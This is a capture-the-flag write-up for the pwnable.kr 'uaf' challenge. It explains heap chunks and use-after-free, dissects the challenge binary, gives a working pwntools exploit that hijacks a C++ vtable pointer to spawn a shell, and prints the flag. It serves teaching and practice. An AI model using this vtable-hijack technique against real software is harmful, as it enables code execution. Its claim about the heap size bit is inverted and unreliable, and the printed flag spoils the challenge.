 # uaf

## Description

uaf - 8 pt

> Mommy, what is Use After Free bug? <br> <br>
> ssh uaf@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### The heap

The heap is a region of memory that is dynamically allocated and deallocated by the program. We can allocate memory on the heap by calling `malloc` and free it by calling `free`. Note that the memory allocated by malloc is always aligned to 8 bytes.

The memory in the heap is stored in chunks. Each chunk has a header, that contains information about the chunk (such as it's size), and the data itself. for example, here is a chunk of size 0x20:

```
0x614ed4:       0x00000000      0x00000021      0x00000000      0x00000614
0x614ee4:       0x00000000      0x2b63ba16      0x4f1d11e4      0x00614ec8
```

The first 2 words are the header, and the rest is the data. It's important to note that the last two bits of the size is have special meaning. Most importantly, the least signifcant bit is used to indicate whether the last chunk is free or not. If it's 1, it's free, if it's 0, it's allocated. 

When a chunk is freed, the heap manager saves its location. When we allocate memory on the heap, the allocator will search if we freed a chunk that is big enough to hold the requested size. If it doesn't find one, it will allocate a new chunk from the end of the heap.

#### Use After Free

Use After Free (UAF) is a vulnerability that occurs when we use a pointer to a chunk after it has been freed. 

A bug like this can be used in many ways. For example, if we allocate a new chunk of the same size as the freed chunk, it will be allocated in the same place as the freed chunk. Thus, we'll be able to control the data that the pointer points to, and possibly take control of the program.

### Exploit

Let's check out the source code:

```c
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;	
}
```

The program creates a `Man` and a `Woman` object, and then gives us a menu to choose from. The first option calls the `introduce` function of both objects. The second option allocates a chunk of memory of a size we choose, and reads data from a file into it. The third option frees both objects.

As the name of the challenge suggest, we'll need to use a UAF bug to get the flag. Let's take a look at the objects in the heap. First, we're going to need to find their addresses. Here are the relevant parts of the disassembly of the `main` function:

```asm
0000000000400ec4 <main>:
  ...
  400f13:	e8 4c 03 00 00       	call   401264 <_ZN3ManC1ESsi>
  ...
  400f71:	e8 92 03 00 00       	call   401308 <_ZN5WomanC1ESsi>
  ...
```

Using gdb to break at the calls to the constructors, we get that the `Man` object's **chunk** starts at `0x614ed4` and the `Woman` object's **chunk** starts at `0x614f24`. Knowing that, we can take a look at the heap:

```
0x614ed4:       0x00000000      0x00000021      0x00000000      0x00401570
0x614ee4:       0x00000000      0x00000019      0x00000000      0x00614ec8

... 

0x614f24:       0x00000000      0x00000021      0x00000000      0x00401550
0x614f34:       0x00000000      0x00000015      0x00000000      0x00614f18
```

Since the classes are fairly similar, let's focus on the `Man` object. The first 2 words of the chunk are the header. Then, we have the `vtable` pointer, which points to the `vtable` of the `Man` class. After that we have the `age` and `name` fields. The `name` field is a pointer to a string, which is stored in the next chunk.

With some debugging, we can figure out that whenever we ask for the `1` option, the program calls `introduce` by using the `vtable` pointers to go to the function that's in offset `0x8` from the start of the `vtable`. 

```asm
  400fcd:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
  400fd1:	48 8b 00             	mov    (%rax),%rax
  400fd4:	48 83 c0 08          	add    $0x8,%rax
  400fd8:	48 8b 10             	mov    (%rax),%rdx
  400fdb:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
  400fdf:	48 89 c7             	mov    %rax,%rdi
  400fe2:	ff d2                	call   *%rdx
```
Also, it appears that the first address of the `vtable` is the address of the `give_shell`, and unsurprisingly, the address at offset `0x8` is the address of the `introduce` function. 

```
0x401570 <_ZTV3Man+16>: 0x0040117a

0x40117a <_ZN5Human10give_shellEv>:     0xe5894855
```

```
0x401578 <_ZTV3Man+24>: 0x004012d2

0x4012d2 <_ZN3Man9introduceEv>: 0xe5894855
```

So, if we manage to change the `vtable` pointer to point `0x8` bytes back, the offset `0x8` will make it point to the `give_shell` function.

It seems that the `Man` and `Woman` objects are each `0x18` bytes long. So, if we'll use the `3`rd option to free them, and then allocate 2 chunks of `0x18` bytes, those chunks will be allocated in the same place as the `Man` and `Woman` objects.

Since the `2`nd option not only gives us the choice of how many bytes to allocate, but also the choice of which file to read into the allocated memory, we can use it to allocate 2 `0x18` byte chunks, that look like this:

```
0x00000000      0x00000021      0x00000000      0x00401568
0x00000000      0x00000000      0x00000000      0x00000000
```

And then, when we choose the `1`st option, the program will dereference the function pointer `0x00401568 + 0x8` which points to the `give_shell` function. 

```python
from pwn import *

ssh = ssh(host='pwnable.kr', port=2222, user='uaf', password='guest')

ssh.mkdir('/tmp/a')
ssh.touch('/tmp/a/exploit')
ssh.upload_data('\x68\x15\x40\x00' + '\x00'*4*3, '/tmp/a/exploit')

p = ssh.process(['./uaf', '24', '/tmp/a/exploit'])
p.sendline(b'3\n2\n2\n1')

p.sendline(b'cat flag')
p.interactive()
```

```
yay_f1ag_aft3r_pwning
```

